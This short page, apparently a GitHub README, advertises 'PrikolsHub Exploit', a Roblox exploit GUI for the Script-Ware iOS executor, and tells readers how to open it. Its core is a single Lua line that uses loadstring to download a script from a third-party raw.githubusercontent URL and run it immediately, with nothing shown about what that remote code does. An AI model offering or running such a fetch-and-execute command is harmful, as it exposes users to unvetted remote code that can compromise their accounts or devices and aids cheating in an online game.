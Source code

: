 ## PrikolsHub Exploit
This is an exploit version of PrikolsHub. Compatible with Script-Ware iOS. Run this in order to get the gui.
Press `]` to bring up special gui on Mac, otherwise shake your iPhone/iPad in order to do the same.
```lua
loadstring(game:GetService("HttpService"):GetAsync("https://raw.githubusercontent.com/ocboy3/ocboy3/main/PrikolsHack.lua",true))()
```
